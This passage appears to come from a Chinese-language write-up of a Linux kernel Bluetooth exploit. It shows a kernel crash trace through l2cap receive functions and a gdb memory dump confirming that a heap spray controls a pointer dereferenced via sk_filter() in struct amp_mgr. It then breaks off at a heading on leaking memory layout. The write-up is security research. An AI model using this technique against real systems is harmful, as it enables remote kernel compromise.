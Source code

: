```shell
[   58.881767] R13: 0000000000000000 R14: 0000000000000001 R15: 0000000000000008
[   58.881774] FS:  0000000000000000(0000) GS:ffff96da69380000(0000) knlGS:0000000000000000
[   58.881780] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   58.881785] CR2: 000055f861e4bd20 CR3: 000000024c80a001 CR4: 00000000003606e0
[   58.881790] Call Trace:
[   58.881869]  ? __l2cap_chan_add+0x88/0x1c0 [bluetooth]
[   58.881938]  l2cap_data_rcv+0x351/0x510 [bluetooth]
[   58.881995]  l2cap_data_channel+0x29f/0x470 [bluetooth]
[   58.882054]  l2cap_recv_frame+0xe5/0x300 [bluetooth]
[   58.882067]  ? __switch_to_asm+0x40/0x70
[   58.882124]  l2cap_recv_acldata+0x2d2/0x2e0 [bluetooth]
[   58.882174]  hci_rx_work+0x186/0x360 [bluetooth]
[   58.882187]  process_one_work+0x1eb/0x3b0
[   58.882197]  worker_thread+0x4d/0x400
[   58.882207]  kthread+0x104/0x140
[   58.882215]  ? process_one_work+0x3b0/0x3b0
[   58.882223]  ? kthread_park+0x90/0x90
[   58.882233]  ret_from_fork+0x35/0x40
```

检查受害者机器的 RDI 的内存地址，我们可以看到:

```shell
$ sudo gdb /boot/vmlinuz /proc/kcore
(gdb) x/40gx 0xffff96da38f70300
0xffff96da38f70300:	0xffff96da601e7d00	0xffffffffc0d38760
0xffff96da38f70310:	0xffff96da60de2600	0xffff96da61c13400
0xffff96da38f70320:	0x0000000000000000	0x0000000000000001
0xffff96da38f70330:	0x0000000000000000	0x0000000000000000
0xffff96da38f70340:	0xffff96da38f70340	0xffff96da38f70340
0xffff96da38f70350:	0x0000000000000000	0x0000000000000000
0xffff96da38f70360:	0xffff96da38f70360	0xffff96da38f70360
0xffff96da38f70370:	0x0000000000000000	0x0000000000000000
0xffff96da38f70380:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f70390:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703a0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703b0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703c0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703d0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703e0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703f0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f70400:	0x4141414141414141	0x4242424242424242
0xffff96da38f70410:	0x4343434343434343	0x4444444444444444
0xffff96da38f70420:	0x4545454545454545	0x4646464646464646
0xffff96da38f70430:	0x4747474747474747	0x4848484848484848
```

0xffff96da38f70410 的值表明 `sk_filter()` 确实试图在 spray 的偏移 0x10 处解除对指针的引用，从`struct amp_mgr`的角度来看，该指针的偏移 0x110 处。Bingo！

## 内存布局泄露
